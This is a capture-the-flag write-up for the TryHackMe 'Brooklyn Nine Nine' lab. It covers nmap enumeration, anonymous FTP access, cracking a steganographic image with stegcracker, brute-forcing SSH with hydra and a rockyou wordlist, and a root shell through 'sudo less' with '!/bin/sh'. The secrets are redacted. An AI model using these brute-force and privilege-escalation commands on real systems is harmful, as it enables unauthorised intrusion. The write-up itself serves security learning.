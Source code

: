 <a href="https://tryhackme.com/room/brooklynninenine"><h1><center>Brooklyn Nine Nine</center></h1></a>
<p>There are two methods of getting into the machine and i will cover both in this write-up.</p>
<p>Without further ado let's start enumerating the machine! First we will use nmap scan. </p>
<pre><code>
$ nmap -sC -sV -oN nmap/init 10.10.48.118
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-17 17:05 EST
Nmap scan report for 10.10.48.118
Host is up (0.044s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.20.116
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.01 seconds
</code></pre>

<p>There are 3 ports open:</p>
<ul> 
  <li> 21 (FTP)</li>
  <li> 22 (SSH)</li>
  <li> 80 (HTTP)</li>
</ul>
<p>We can also see that that FTP allows Anonymous login and has <code>note_to_jake.txt</code>! Let's login, download and check the file.</p>
<pre><code>
$ ftp 10.10.48.118
Connected to 10.10.48.118.
220 (vsFTPd 3.0.3)
Name (10.10.48.118:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.01 secs (19.5575 kB/s)
ftp> exit
221 Goodbye.
</code></pre>
<pre><code>
$ cat note_to_jake.txt
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
</code></pre>
<p>Nice! We can now note down 3 potencial usernames - Amy, Jake, Holt. But before we try to crack Jakes weak password lets check a web server on port 80.</p>
<p>Let's see if there is anything usefull in the source code...YEP... we found a clue!</p> 
<pre><code>
&lt;p&gt;This example creates a full page background image. Try to resize the browser window to see how it always will cover the full screen (when scrolled to top), and that it scales nicely on all screen sizes.&lt;/p&gt;
&lt;!-- Have you ever heard of steganography? --&gt;
</code></pre>
<p>Download the picture and let's see what it hides. </p>
<code> $ wget http://10.10.48.118/brooklyn99.jpg </code>

<p>Unfortunately we cant extract it with steghide because we dont have a password. Let's use a tool called <a href="https://github.com/Paradoxis/StegCracker">stegcracker</a> </p>
<pre><code>
# stegcracker brooklyn99.jpg /opt/wordlists/rockyou.txt 
StegCracker 2.0.9 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/opt/wordlists/rockyou.txt'..
Successfully cracked file with password: <b><---REDACTED---></b>
Tried 20522 passwords
Your file has been written to: brooklyn99.jpg.out
</pre></code>
<pre><code>
$ cat brooklyn99.jpg.out 
Holts Password:
<b><---REDACTED---></b>

Enjoy!!
</pre></code>
<p>Nice we got Holt's password and now all we got to do is ssh in!</p>
<h2>NOTE</h2>
<p>There is another way of getting into the machine. We know that Jake has weak password and we can use hydra to crack it</p>
<pre><code>
$ hydra -l jake -P /opt/wordlists/rockyou.txt 10.10.48.118 ssh
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344401 login tries (l:1/p:14344401), ~896526 tries per task
[DATA] attacking ssh://10.10.48.118:22/
[22][ssh] host: 10.10.48.118   login: jake   password: <b><---REDACTED---></b>
</code></pre>
<p>Now that we have covered how to get both credentials lets ssh in!</p>
<code>$ ssh jake@10.10.48.118 </code>
<p>We need to find <code>user.txt</code> and <code>root.txt</code>. </p>
<pre><code>
$ find / -type f -iname user.txt 2>/dev/null
/home/holt/user.txt
</code></pre>
<p> At this point we could just ssh in as Holt and get the flag but we need to escalate our privaleges to get the root flag anyways so lets get on with the fun part... Getting root access! </p>
<pre><code>
$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
</code></pre>
<p> So Jake can use <code>less</code> with sudo without password! We could just use <code>less</code> and get the contents of user and root flags but thats not fun! <p>
<p> Time to check <a href="https://gtfobins.github.io/">GTFOBins</a> and see if we can get root privaleges.</p> 
<p> Ahha there it is! First use:</p>
<code>
sudo less /etc/profile
</code>
<p> and then just type:</p>
<code> !/bin/sh </code>
<p> And thats it! But let's make sure we are root first.</p>
<pre><code>
# whoami
root
</code></pre>
<p> There we go we are root! That wasnt so hard was it?</p>
<pre><code>
# cat /home/holt/user.txt
<b><---REDACTED---></b>
</code></pre>
<p> And now the root flag.</p>
<pre><code>
# cat /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: <b><---REDACTED---></b>

Enjoy!!
</code></pre>

<p>And we are done! CONGRATS!</p>
<p>Don't forget to drink some water and happy hacking!</p>


